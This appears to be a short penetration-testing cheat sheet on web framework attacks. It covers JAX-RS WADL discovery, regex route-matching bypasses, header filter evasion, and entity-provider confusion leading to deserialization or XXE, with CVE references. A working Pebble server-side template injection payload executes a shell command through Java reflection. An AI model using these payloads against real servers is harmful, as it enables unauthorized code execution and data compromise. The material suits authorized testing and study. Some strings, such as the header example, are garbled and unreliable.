 ```yaml
---
title: Framework Attacks
category: Web Application
order: 110
---
```



> **JAX-RS** 

**Find the web application description language**

WADL is available via the following:
 * /applicaiton.wadl relative URI for JAX-RS and Jersey.  OR by sending OPTIONS request with applicaiton/vnd.sun.wadl+xml in Accept header
*  /application.xml relative URI for RESTEasy
* Apache CXF: _wadl=true parameter to URL

**URL matching ambiguites from regex:**

Example:
URI Patterns
/rest/{name}/show/{id:\\d+} is restricted
/rest/echo/{name:.+} is public

Request
/rest/echo/show/12345 accesses the restricted method


**Bypass blacklist filters for HTTP headers:**

* AccptHTapplication/jasonCRX-USER-ID: 67890
* JAX-RS uses the above string as two headers


**Selection confusion attack:**
@consumes defines the allowed content types
If resource method lacks @Consumes annotation or is too permissive (e.g., */*, application/*)
There is entity provider in CLASSPATH where isReadable method always (or mostly) returns True.

Useful entity providers:

Entity Provider | Media Type | Selection conditions | Weakness | CVE
----------------|------------|----------------------|----------|----
SerializableProvider (RESTEasy) | application/x-java-serialized-object | Entity parameter is serializable | Deser of Untrusted data | CVE-2016-7050
YamlProvider (RESTEasy) | text/yaml, text/x-yaml, application/x-yaml | Always selected | Deser of untrusted data | CVE-2016-9571
KryoMessageBody (Jersey) | application/x-kryo | Always selected | Deser of untrusted data| No CVE
AtomPojoProvider (apache cxf) | application/atom+xml | Always Selected | XXE | CVE-2016-8739

**Tools**

* Unsafe JAX-RS for Burp (https://github.com/0ang3el/Unsafe-JAX-RS-Burp)

> **Template Injection** 

** Java Pebble Example **

{% highlight java %}
{% raw %}

{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
   
{% endraw %}
{% endhighlight %}

**Resources**

* [Pebble](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
